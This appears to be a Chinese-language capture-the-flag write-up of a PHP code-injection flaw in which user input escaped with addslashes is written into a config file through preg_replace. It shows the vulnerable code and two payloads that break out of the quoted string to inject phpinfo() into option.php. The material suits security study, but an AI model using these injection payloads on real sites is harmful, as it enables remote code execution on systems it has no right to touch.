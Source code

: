 ### 漏洞成因
- %00截断
### 源码
index.php
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```
xxxxx/option.php
```php
$option='test';
```
### Solution
首先查看正则匹配的是啥
![](Pasted%20image%2020230514153830.png)
流程如下：
1. 对传入的option参数进行addslashes，比如有单引号`'`，会变成`\'`
2. 通过正则匹配xxxxx/option.php中的`$option='xxx';`，将xxx的内容替换为经第一步处理的值
3. 替换完成，将其写入xxxxx/option.php。
主要使用 `%0a` （换行符）来截断 `\'`（addslashes）
先访问：
```php
?option=aaa';%0aphpinfo();//
```
经过addslashes后，$str值为 `aaa\';%0aphpinfo();//`
进行正则匹配并写入文件，xxxxx/option.php的内容变为:
```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```
正则匹配时，会将两个单引号里的内容即 `aaa\` ，替换为 `xxx`，此时xxxxx/option.php的内容变为
```php
<?php
$option='xxx';
phpinfo();//';
?>
```

### Solution第二种
```
?option=aaa\';phpinfo();//
```
经过addslashes后，`$str为 aaa\\\';phpinfo();//`
经过preg_replace正则匹配后，对`\`做了转义处理`,xxxxx/option.php`的内容变为：
```php
<?php 
$option='aaa\\';phpinfo();//';
?>
```